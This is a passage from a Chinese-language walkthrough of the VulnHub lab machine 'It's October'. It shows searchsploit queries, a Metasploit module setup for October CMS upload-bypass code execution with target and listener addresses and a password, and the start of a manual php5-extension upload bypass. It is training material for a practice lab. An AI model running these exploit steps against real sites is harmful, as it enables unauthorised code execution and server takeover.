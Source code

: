 2 个 XSS 怎么用啊🤣，后来才发现是我搜索姿势不对

```bash
searchsploit october cms
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/12.png)

要加个空格我是服气的..接下来访问搜出的这几个漏洞。

**October CMS - Upload Protection Bypass Code Execution (Metasploit)**

```bash
msfconsole
use exploit/multi/http/october_upload_bypass_exec
set rhosts 192.168.1.249
set lhost 192.168.1.248
set password adminadmin2
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/13.png)

利用完毕但未回弹成功,那么换下一个

**October CMS 1.0.412 - Multiple Vulnerabilities**

- https://www.exploit-db.com/exploits/41936

大致描述了 bypass 上传和上传 .htaccess 的利用方法,还有资产管理中的 php 代码执行,既然 msf 没成功那就手动试试

- **bypass 上传**

    意思是黑名单中没有包含 php5 后缀的文件

    ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/14.png)
